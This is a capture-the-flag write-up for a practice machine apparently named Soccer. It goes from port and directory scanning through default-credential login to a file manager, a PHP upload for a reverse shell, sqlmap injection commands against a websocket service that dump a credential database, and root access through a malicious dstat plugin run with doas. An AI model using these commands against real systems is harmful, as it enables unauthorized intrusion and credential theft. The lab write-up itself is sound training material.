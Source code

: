 ## Network Enumeration

we first scan the machine for open ports we notice a web server on port 80 using nginx and an unknown service running on port 9091  

![NmapScan](nmap_scan.png)

## Web Fuzzing

we look for directories not shown on the main page using ffuf 

![FUZZing](Fuzz.png)![tinymanagement](tiny.png)

we find a tiny file manager that we accessed using the default credentials 
Username:**admin**&Password:**admin@123**

Navigating the Website we found that we have write access on the uploads directory on which we could upload php code and get our reverse shell

![upload](upload.png)

we find that we dont have permission to view user flag however digging deeper we find a vhost in the nginx config files

![[vhost.png]]
## Sql Injection

browsing the newly found vhost we found a parameter that is injectable


regularly we are unable to access the outcoime of our blind sqli Fortunately sqlmap allows us to directly access it on websocket service on port 9091.

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

![[db_Sqli.png]]

```
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 -D
soccer_db --dump --batch
```

![[cred_sqli.png]]

## User Flag

we use the found credentials to ssh into our machine successfully
![[user_flag.png]]

## Privilege Escalation

We check if we can use any **SUID** bins as root using the following command
```
find / -type f -perm -4000 2>/dev/null
```

![[bins.png]]
searching for doas we find that the config file is in  ```/usr/local/etc/doas.conf``` 
revealing that we can run dstat as root

![[dstat.png]]

the dstat man page reveals that we can use it to run external python plugins as root

```
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

when we execute this command we create a python script that executes a shell we then run doas using 
```
doas /usr/bin/dstat --list
```
to get a shell as root
![[root.png]]